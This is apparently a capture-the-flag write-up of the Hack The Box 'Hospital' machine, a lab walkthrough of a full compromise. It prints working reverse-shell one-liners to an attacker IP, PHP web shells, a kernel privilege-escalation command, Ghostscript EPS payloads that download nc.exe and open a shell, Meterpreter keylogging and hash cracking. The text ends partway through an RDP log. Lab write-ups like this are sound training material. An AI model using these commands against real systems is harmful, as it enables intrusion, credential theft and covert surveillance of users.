

# Hospital



Machine: [https://app.hackthebox.com/machines/Hospital](https://app.hackthebox.com/machines/Hospital)

Created by: [ruycr4ft](https://app.hackthebox.com/users/1253217)

Difficulty: Medium

OS: Windows

## Machine Info

Hospital is a medium-difficulty Windows machine that hosts an Active Directory environment, a web server, and a `RoundCube` instance. The web application has a file upload vulnerability that allows the execution of arbitrary PHP code, leading to a reverse shell on the Linux virtual machine hosting the service. Enumerating the system reveals an outdated Linux kernel that can be exploited to gain root privileges, via `[CVE-2023-35001](https://nvd.nist.gov/vuln/detail/CVE-2023-35001)`. Privileged access allows `/etc/shadow` hashes to be read and subsequently cracked, yielding credentials for the `RoundCube` instance. Emails on the service hint towards the use of `GhostScript`, which opens up the target to exploitation via `[CVE-2023-36664](https://nvd.nist.gov/vuln/detail/CVE-2023-36664)`, a vulnerability exploited by crafting a malicious Embedded PostScript (EPS) file to achieve remote code execution on the Windows host. System access is then obtained by either of two ways: using a keylogger to capture `administrator` credentials, or by abusing misconfigured `XAMPP` permissions.

## Enumeration

### Nmap

```shell
labadmin@labmachine:~/hospital$ nmap -sV -oN hospital-sv-nmap.log 10.10.11.241
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-09 17:48 PDT
Nmap scan report for 10.10.11.241
Host is up (0.24s latency).
Not shown: 982 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
22/tcp   open  ssh           OpenSSH 9.0p1 Ubuntu 1ubuntu8.5 (Ubuntu Linux; protocol 2.0)
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-04-10 07:49:18Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
443/tcp  open  tcpwrapped
445/tcp  open  microsoft-ds?
464/tcp  open  tcpwrapped
593/tcp  open  tcpwrapped
1801/tcp open  tcpwrapped
2103/tcp open  msrpc         Microsoft Windows RPC
2105/tcp open  tcpwrapped
2107/tcp open  tcpwrapped
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: hospital.htb0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
8080/tcp open  http          Apache httpd 2.4.55 ((Ubuntu))
Service Info: Host: DC; OSs: Linux, Windows; CPE: cpe:/o:linux:linux_kernel, cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.47 seconds
```

There are many open ports revealed by `Nmap`.

Port `443` and `8080` are running web servers and we start pay them a visit.

### Feroxbuster

Before having a closer look at the web pages we run a scan with feroxbuster in parallel, to search for additional web resources and directories.

```shell
labadmin@labmachine:~$ feroxbuster -u http://10.10.11.241:8080

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.10.2
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://10.10.11.241:8080
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ All Status Codes!
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.10.2
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        9l       31w      276c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        9l       28w      279c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
301      GET        9l       28w      320c http://10.10.11.241:8080/images => http://10.10.11.241:8080/images/
301      GET        9l       28w      316c http://10.10.11.241:8080/js => http://10.10.11.241:8080/js/
302      GET        0l        0w        0c http://10.10.11.241:8080/ => login.php
301      GET        9l       28w      321c http://10.10.11.241:8080/uploads => http://10.10.11.241:8080/uploads/
301      GET        9l       28w      317c http://10.10.11.241:8080/css => http://10.10.11.241:8080/css/
301      GET        9l       28w      319c http://10.10.11.241:8080/fonts => http://10.10.11.241:8080/fonts/
301      GET        9l       28w      326c http://10.10.11.241:8080/images/icons => http://10.10.11.241:8080/images/icons/
301      GET        9l       28w      320c http://10.10.11.241:8080/vendor => http://10.10.11.241:8080/vendor/
301      GET        9l       28w      327c http://10.10.11.241:8080/vendor/jquery => http://10.10.11.241:8080/vendor/jquery/
301      GET        9l       28w      328c http://10.10.11.241:8080/vendor/animate => http://10.10.11.241:8080/vendor/animate/
[####################] - 23m   300017/300017  0s      found:10      errors:50129
[####################] - 19m    30000/30000   26/s    http://10.10.11.241:8080/
[####################] - 19m    30000/30000   27/s    http://10.10.11.241:8080/js/
[####################] - 18m    30000/30000   28/s    http://10.10.11.241:8080/images/
[####################] - 19m    30000/30000   27/s    http://10.10.11.241:8080/uploads/
[####################] - 19m    30000/30000   26/s    http://10.10.11.241:8080/css/
[####################] - 19m    30000/30000   26/s    http://10.10.11.241:8080/fonts/
[####################] - 19m    30000/30000   26/s    http://10.10.11.241:8080/images/icons/
[####################] - 19m    30000/30000   27/s    http://10.10.11.241:8080/vendor/
[####################] - 18m    30000/30000   27/s    http://10.10.11.241:8080/vendor/jquery/
[####################] - 9m     30000/30000   57/s    http://10.10.11.241:8080/vendor/animate/
```

### HTTPS

Navigate to port port 443 `https://10.10.11.241` it takes us to a webmail service. Looking at the logo and reading the web page source code we identify it is running [Roundcube](https://roundcube.net/).


### HTTP

Navigate to port port 8080 `http://10.10.11.241:8080` redirect us to login page `http://10.10.11.241:8080/login.php`.


There is a `Make one` option to create an account if you do not have one. Clicking this takes us to `http://10.10.11.241:8080/register.php`.


We create an account and login. Once logged in we are redirected to `http://10.10.11.241:8080/index.php` that allow us to upload medical records.


Looking at the URL we see that the page has a `.php` extension. With the knowledge that this is PHP and that we can upload files we will attempt to upload a PHP web shell.

Here we can read more about file upload attacks at [HTB Academy - File Upload Attacks](https://academy.hackthebox.com/module/details/136).

We create a PHP file that calls phpinfo() function and then try to upload it.

```shell
labadmin@labmachine:~/hospital$ cat payload.php
<?php phpinfo(); ?>
```


Uploading the file failed. Most likely there are some kind of upload sanitation check, like blacklisting of file extensions or file types.

We try to change the file name with different php extension and upload again. We find some alternatives here [https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#bypass-file-extension-validation](https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/#bypass-file-extension-validation).

After some tries we are successful with file extension `.phar`.


Looking back at the result from feroxbuster, we find a directory named `uploads`. We assume this is where the uploaded file will end up and we try to load `http://10.10.11.241:8080/uploads/payload.phar` in our browser.

The page loads successfully.


## Foothold

If we have a look on the phpinfo() output we find a list of disabled function. And most of the execution functions are disabled.

`popen` is not one of the disables and we will use [GitHub - p0wny-shell](https://github.com/flozz/p0wny-shell) that support `popen`.


With the web shell available we take the next step to get revere shell.

On local machine, starting a listener with Netcat.

```shell
labadmin@labmachine:~$ nc -lvnp 6000
Listening on 0.0.0.0 6000
```

On remote machine, in the web shell, connect the reverse shell.

```shell
www-data@webserver:�/html/uploads# which bash
/usr/bin/bash


www-data@webserver:�/html/uploads# /usr/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.85/6000 0>&1'
```

Back to our listener and we have reverse shell.

```shell
labadmin@labmachine:~$ nc -lnvp 6000
Listening on 0.0.0.0 6000
Connection received on 10.10.11.241 6602
bash: cannot set terminal process group (979): Inappropriate ioctl for device
bash: no job control in this shell
www-data@webserver:/var/www/html/uploads$
```

We then run `script /dev/null -c /bin/bash ` to create a new PTY for more stable shell.

## Lateral Movement

With the knowledge that the host system is a Windows machine, we look for a way to escape this container or virtual machine.

### Linux Enumeration

Checking OS and kernel.

```shell
www-data@webserver:/var/www$ cat /etc/os-release
cat /etc/os-release
PRETTY_NAME="Ubuntu 23.04"
NAME="Ubuntu"
VERSION_ID="23.04"
VERSION="23.04 (Lunar Lobster)"
VERSION_CODENAME=lunar
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=lunar
LOGO=ubuntu-logo
www-data@webserver:/var/www$ uname -a
uname -a
Linux webserver 5.19.0-35-generic #36-Ubuntu SMP PREEMPT_DYNAMIC Fri Feb 3 18:36:56 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

We identify following vulnerability 

https://medium.com/@0xrave/ubuntu-gameover-lay-local-privilege-escalation-cve-2023-32629-and-cve-2023-2640-7830f9ef204a

https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/

https://github.com/g1vi/CVE-2023-2640-CVE-2023-32629/tree/main

Executing the payload and we get root access.

```shell
www-data@webserver:/var/www/html/uploads$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("cp /bin/bash /var/tmp/bash && chmod 4755 /var/tmp/bash && /var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
</var/tmp/bash -p && rm -rf l m u w /var/tmp/bash")'
whoami
root
```

Checking the `/etc/shadow` we find user drwilliams and the hash.

```shell
cat /etc/shadow
root:[OMITTED]
...
drwilliams:[OMITTED]
...
```

We get the encryption method inside the `login.defs` file.

```shell
labadmin@labmachine:~/hospital$ grep ENCRYPT_METHOD /etc/login.defs
# This variable is deprecated. You should use ENCRYPT_METHOD.
ENCRYPT_METHOD SHA512
# Only works if ENCRYPT_METHOD is set to SHA256 or SHA512.
# Only works if ENCRYPT_METHOD is set to YESCRYPT.
```

And then we grep Hashcat help to find it's associated hash-mode.

```shell
labadmin@labmachine:~/hospital$ hashcat --help | grep sha512
   1770 | sha512(utf16le($pass))                                     | Raw Hash
   1710 | sha512($pass.$salt)                                        | Raw Hash salted and/or iterated
   1720 | sha512($salt.$pass)                                        | Raw Hash salted and/or iterated
   1740 | sha512($salt.utf16le($pass))                               | Raw Hash salted and/or iterated
   1730 | sha512(utf16le($pass).$salt)                               | Raw Hash salted and/or iterated
   6500 | AIX {ssha512}                                              | Operating System
   1800 | sha512crypt $6$, SHA512 (Unix)                             | Operating System
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
  21600 | Web2py pbkdf2-sha512                                       | Framework
  20200 | Python passlib pbkdf2-sha512                               | Framework
  21000 | BitShares v0.x - sha512(sha512_bin(pass))                  | Cryptocurrency Wallet
```

We find it at the hash-mode `1800`, `sha512crypt $6$`.

Then we take the hash, in other words the string between first and second `:`.

`drwilliams:[OMITTED]:19612:0:99999:7:::`

Write this hash to a file `drwilliams.hash` and then execute. `-m 1800` for the 256 hash mode and `-a 0` for attack.

```shell
labadmin@labmachine:~/hospital$ hashcat -m 1800 -a 0 drwilliams.hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-haswell-Intel(R) Core(TM) i7-6700K CPU @ 4.00GHz, 1437/2939 MB (512 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

Host memory required for this attack: 0 MB

Dictionary cache built:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344392
* Bytes.....: 139921507
* Keyspace..: 14344385
* Runtime...: 1 sec

[s]tatus [p]ause [b]ypass [c]heckpoint [f]inish [q]uit => 

[OMITTED]:[OMITTED]

Started: Thu Apr 11 05:39:23 2024
Stopped: Thu Apr 11 05:42:47 2024
```

The password is cracked successfully.

### RoundCube

We know that password reuse is a common vulnerability. So we try the credentials to login the Webmail as drwilliams and it works fine.


The email `Needle designs for Darius Simion.` contains interesting information. They are using GhostScript with `.eps`. 


Online we find following command injection vulnerability, using `.ep` or `.eps` files with GhostScript. [https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection](CVE-2023-36664)

Reading the repository, the idea is to use the script to generate a new `.eps` file with including injected command. Then we use Webmail to email the file to Dr Brown and wait for him to open the attachment, that will then execute the command.

We will prepare 2 files with payload for reverse shell. First to transfer Netcat to the target and second to execute Netcat to connect to local listener.

Starting off by cloning the repository.

```shell
labadmin@labmachine:~/hospital$ git clone https://github.com/jakabakos/CVE-2023-36664-Ghostscript-command-injection.git
Cloning into 'CVE-2023-36664-Ghostscript-command-injection'...
remote: Enumerating objects: 34, done.
remote: Counting objects: 100% (34/34), done.
remote: Compressing objects: 100% (32/32), done.
remote: Total 34 (delta 15), reused 5 (delta 1), pack-reused 0
Receiving objects: 100% (34/34), 71.69 KiB | 516.00 KiB/s, done.
Resolving deltas: 100% (15/15), done.

labadmin@labmachine:~/hospital$ cd CVE-2023-36664-Ghostscript-command-injection/
```

Generate first payload, where we will inject command to download Netcat binary from local machine to target machine.

```shell
python3 CVE_2023_36664_exploit.py --generate --payload "curl 10.10.14.85:7000/nc.exe -o nc.exe" --filename payload1  --extension eps
```

Start local web server to host the Netcat, here using the windows-resources package version of nc at `usr/share/windows-resources/binaries/nc.exe`.

```shell
labadmin@labmachine:/usr/share/windows-resources/binaries$ python3 -m http.server 7000
Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...
```

Now we reply to the email to Dr Brown with the payload1.eps file attached. Send and check the web server if the nc file was transferred successfully.


We now see in the logs for the local web server that the package was transferred.

```shell
labadmin@labmachine:/usr/share/windows-resources/binaries$ python3 -m http.server 7000
Serving HTTP on 0.0.0.0 port 7000 (http://0.0.0.0:7000/) ...
10.10.11.241 - - [11/Apr/2024 17:57:45] "GET /nc.exe HTTP/1.1" 200 -
```

Now we start a local listener to prepare for reverse shell.

```shell
labadmin@labmachine:~$ nc -lvnp 6000
Listening on 0.0.0.0 6000
```

Generate a new payload to connect reverse shell to our local listener.

```shell
labadmin@labmachine:~/hospital/CVE-2023-36664-Ghostscript-command-injection$ python3 CVE_2023_36664_exploit.py --generate --payload "nc.exe 10.10.14.85 6000 -e cmd.exe" --filename payload2 --extension eps
[+] Generated EPS payload file: payload2.eps
```

Send the new payload to Dr Brown as with the previous one, then check the local listener and wait for the reverse shell.

Success! We have a reverse shell as Dr Brown.

```shell
labadmin@labmachine:~$ nc -lvnp 6000
Listening on 0.0.0.0 6000
Connection received on 10.10.11.241 6304
Microsoft Windows [Version 10.0.17763.4974]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\drbrown.HOSPITAL\Documents>whoami
whoami
hospital\drbrown
```

In current Documents folder there is a script named `ghostscript.bat`

```shell
C:\Users\drbrown.HOSPITAL\Documents>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 7357-966F

 Directory of C:\Users\drbrown.HOSPITAL\Documents

04/12/2024  12:57 AM    <DIR>          .
04/12/2024  12:57 AM    <DIR>          ..
10/23/2023  03:33 PM               373 ghostscript.bat
04/12/2024  12:57 AM            59,392 nc.exe
               2 File(s)         59,765 bytes
               2 Dir(s)   4,474,802,176 bytes free

C:\Users\drbrown.HOSPITAL\Documents>type ghostscript.bat
type ghostscript.bat
@echo off
set filename=%~1
powershell -command "$p = convertto-securestring '[OMITTED]' -asplain -force;$c = new-object system.management.automation.pscredential('hospital\drbrown', $p);Invoke-Command -ComputerName dc -Credential $c -ScriptBlock { cmd.exe /c "C:\Program` Files\gs\gs10.01.1\bin\gswin64c.exe" -dNOSAFER "C:\Users\drbrown.HOSPITAL\Downloads\%filename%" }"
C:\Users\drbrown.HOSPITAL\Documents>
```

Interesting, it contains a hardcoded user and password.

We use Dr Brown credentials and login using WinRM.

```shell
labadmin@labmachine:~/hospital$ evil-winrm -i 10.10.11.241 -u drbrown -p '[OMITTED]'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents> whoami
hospital\drbrown
```

User flag is found on the Desktop in user.txt file.

```shell
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Desktop> dir


    Directory: C:\Users\drbrown.HOSPITAL\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/14/2024   9:10 PM             34 user.txt


*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Desktop> cat user.txt
[OMITTED]
```

## Privilege Escalation

### Keystroke Capture

Using `qwinsta` command we displays interactively logged-in users and we see that there is an active session.

```shell
C:\Users\drbrown.HOSPITAL\Documents>qwinsta
qwinsta
 SESSIONNAME       USERNAME                 ID  STATE   TYPE        DEVICE
>services                                    0  Disc
 console           drbrown                   1  Active
 rdp-tcp                                 65536  Listen
```

The `>` shows the current console session with ID 0. Next is drbrown logged in to console with ID 1.

As next step we will use Metasploit/Meterpreter to monitor Dr Browns activity.

First of we generate a Meterpreter payload using msfvenom.

```shell
labadmin@labmachine:~/hospital$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.10 LPORT=6001 -f exe -a x64 --platform windows -o payload.exe
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: payload.exe
```

Next we start a Meterpreter listener inside Metasploit.

Now we go back to WinRM and upload the payload and run it.

```shell
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents> upload ./payload.exe

Info: Uploading /home/labadmin/hospital/payload.exe to C:\Users\drbrown.HOSPITAL\Documents\payload.exe

Data: 9556 bytes of 9556 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents> ./payload.exe
*Evil-WinRM* PS C:\Users\drbrown.HOSPITAL\Documents>
```

And we got the connection on our meterpreter listener.

```shell
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.10:6001
[*] Sending stage (201798 bytes) to 10.10.11.241
[*] Meterpreter session 1 opened (10.10.14.10:6001 -> 10.10.11.241:6086) at 2024-04-14 22:50:49 -0700

meterpreter >
```

Now we list ps for Dr Brown.

```shell
meterpreter > ps -U drbrown
Filtering on user 'drbrown'

Process List
============

 PID   PPID  Name                     Arch  Session  User              Path
 ---   ----  ----                     ----  -------  ----              ----
 532   1540  taskhostw.exe            x64   1        HOSPITAL\drbrown  C:\Windows\System32\taskhostw.exe
 784   2668  conhost.exe              x64   0        HOSPITAL\drbrown  C:\Windows\System32\conhost.exe
 1008  6176  explorer.exe             x64   1        HOSPITAL\drbrown  C:\Windows\explorer.exe
 1088  2592  iexplore.exe             x64   1        HOSPITAL\drbrown  C:\Program Files\internet explorer\iexplore.exe
 1120  7440  powershell.exe           x64   0        HOSPITAL\drbrown  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 1568  900   wsmprovhost.exe          x64   0        HOSPITAL\drbrown  C:\Windows\System32\wsmprovhost.exe
 1980  1088  iexplore.exe             x86   1        HOSPITAL\drbrown  C:\Program Files (x86)\Internet Explorer\iexplore.exe
 2504  1540  powershell.exe           x64   1        HOSPITAL\drbrown  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 2592  6368  IEDriverServer.exe       x86   1        HOSPITAL\drbrown  C:\Users\drbrown.HOSPITAL\.cache\selenium\IEDriverServer\win32\4.14.0\IEDriverServer.exe
 5204  900   wsmprovhost.exe          x64   0        HOSPITAL\drbrown  C:\Windows\System32\wsmprovhost.exe
 6220  2504  conhost.exe              x64   1        HOSPITAL\drbrown  C:\Windows\System32\conhost.exe
 6368  2504  python.exe               x64   1        HOSPITAL\drbrown  C:\Program Files\Python312\python.exe
 6924  656   svchost.exe              x64   1        HOSPITAL\drbrown  C:\Windows\System32\svchost.exe
 6932  656   svchost.exe              x64   1        HOSPITAL\drbrown  C:\Windows\System32\svchost.exe
 6948  2088  sihost.exe               x64   1        HOSPITAL\drbrown  C:\Windows\System32\sihost.exe
 7212  900   ShellExperienceHost.exe  x64   1        HOSPITAL\drbrown  C:\Windows\SystemApps\ShellExperienceHost_cw5n1h2txyewy\ShellExperienceHost.exe
 7324  900   SearchUI.exe             x64   1        HOSPITAL\drbrown  C:\Windows\SystemApps\Microsoft.Windows.Cortana_cw5n1h2txyewy\SearchUI.exe
 7412  900   RuntimeBroker.exe        x64   1        HOSPITAL\drbrown  C:\Windows\System32\RuntimeBroker.exe
 7484  900   RuntimeBroker.exe        x64   1        HOSPITAL\drbrown  C:\Windows\System32\RuntimeBroker.exe
 7996  900   RuntimeBroker.exe        x64   1        HOSPITAL\drbrown  C:\Windows\System32\RuntimeBroker.exe
 8160  1008  vmtoolsd.exe             x64   1        HOSPITAL\drbrown  C:\Program Files\VMware\VMware Tools\vmtoolsd.exe
 8768  5204  payload.exe              x64   0        HOSPITAL\drbrown  C:\Users\drbrown.HOSPITAL\Documents\payload.exe
 ```

We see an iexplorer.exe process that Dr Brown uses. This will be interesting to look at. We try to run keylogger and see if we can get anything interesting.

First we must migrate to the 64-bit iexplore.exe process, in this case PID 1088.

```shell
meterpreter > migrate 1088
[*] Migrating from 8420 to 1088...
[*] Migration completed successfully.
meterpreter >
```

From here we take screenshot with `screengrab` or keyscan by `keyscan_start`.

```shell
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter >
```

We now dump the scan result with `keyscan_dump`. Better wait some time for meaningful output.

It will give us Administrator and a string looking like a password.

```shell
meterpreter > keyscan_dump
Dumping captured keystrokes...
Administrator[OMITTED]
```

Before we continue we also stop the sniffer.

```shell
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```

We successfully login as Administrator using the credentials with WinRM.

```shell
labadmin@labmachine:~/hospital$ evil-winrm -i 10.10.11.241 -u Administrator -p '[OMITTED]'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

We find root flag at `C:\Users\Administrator\Desktop\root.txt`

```shell
*Evil-WinRM* PS C:\Users\Administrator\Desktop> dir


    Directory: C:\Users\Administrator\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/14/2024   9:10 PM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
[OMITTED]
```

### XAMPP

XAMPP is installed in root directory. XAMPP that is a software bundle containing Apache, MySQL, PHP, and Perl, commonly used for web development.

```shell
*Evil-WinRM* PS C:\> dir


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/21/2023   5:12 PM                ExchangeSetupLogs
d-----       10/22/2023   9:48 PM                inetpub
d-----        11/5/2022  12:03 PM                PerfLogs
d-r---       11/13/2023   6:05 PM                Program Files
d-----       10/22/2023  10:01 PM                Program Files (x86)
d-----         9/6/2023   3:50 AM                root
d-r---         9/6/2023   7:57 AM                Users
d-----       11/13/2023   6:05 PM                Windows
d-----       10/22/2023  10:10 PM                xampp
-a----       10/21/2023   4:34 PM             32 BitlockerActiveMonitoringLogs
```

We check the permissions set for the `htdocs` directory. htdocs folder is where Apache typically has its webroot.

```shell
*Evil-WinRM* PS C:\xampp> icacls htdocs
htdocs NT AUTHORITY\LOCAL SERVICE:(OI)(CI)(F)
       NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
       BUILTIN\Administrators:(I)(OI)(CI)(F)
       BUILTIN\Users:(I)(OI)(CI)(RX)
       BUILTIN\Users:(I)(CI)(AD)
       BUILTIN\Users:(I)(CI)(WD)
       CREATOR OWNER:(I)(OI)(CI)(IO)(F)

Successfully processed 1 files; Failed processing 0 files
```

Both the SYSTEM account and the Administrators group have full control over the directory and its contents. Users group has read and execute permissions on the directory and its child objects, along with append data and write data permissions specifically on the directory itself.

This misconfiguration could allow us to drop a PHP script into this directory and execute it via a web browser, potentially leading to the acquisition of a privileged shell as an Administrator.

We start off by creating a script to run command using PHP.

```shell
labadmin@labmachine:~/hospital$ cat payload.php
<?php system($_REQUEST['cmd']); ?>
```

Next we upload it.

```shell
*Evil-WinRM* PS C:\xampp\htdocs> upload payload.php

Info: Uploading /home/labadmin/hospital/payload.php to C:\xampp\htdocs\payload.php

Data: 44 bytes of 44 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\xampp\htdocs> type payload.php
<?php system($_REQUEST['cmd']); ?>
```

We call it with `whoami` command via the web browser `https://10.10.11.241/payload.php?cmd=whoami`.


Now we setup a local listener.

```shell
labadmin@labmachine:~/hospital$ nc -lvnp 6002
Listening on 0.0.0.0 6002
```

We use [https://www.revshells.com/](https://www.revshells.com/) to generate a base64 encoded reverse shell for powershell and change whoami.

Load the URL in web browser and we get reverse shell.

```shell
labadmin@labmachine:~$ nc -lvnp 6002
Listening on 0.0.0.0 6002
Connection received on 10.10.11.241 6107
whoami
nt authority\system
PS C:\xampp\htdocs>
```

Now we find root flag at `C:\Users\Administrator\Desktop\root.txt`

```shell
PS C:\xampp\htdocs> cat C:\Users\Administrator\Desktop\root.txt
[OMITTED]
```

### RDP

We can also use Dr Brown credentials and login using RDP.

```shell
labadmin@labmachine:~$ xfreerdp /u:drbrown /v:10.10.11.241
[18:28:03:081] [1385:1386] [WARN][com.freerdp.crypto] - Certificate verification failure 'self-signed certificate (18)' at stack position 0
[18:28:03:081] [1385:1386] [WARN][com.freerdp.crypto] - CN = DC.hospital.htb
[18:28:03:082] [1385:1386] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.10.11.241:3389)
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - Common Name (CN):
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] -        DC.hospital.htb
[18:28:03:083] [1385:1386] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
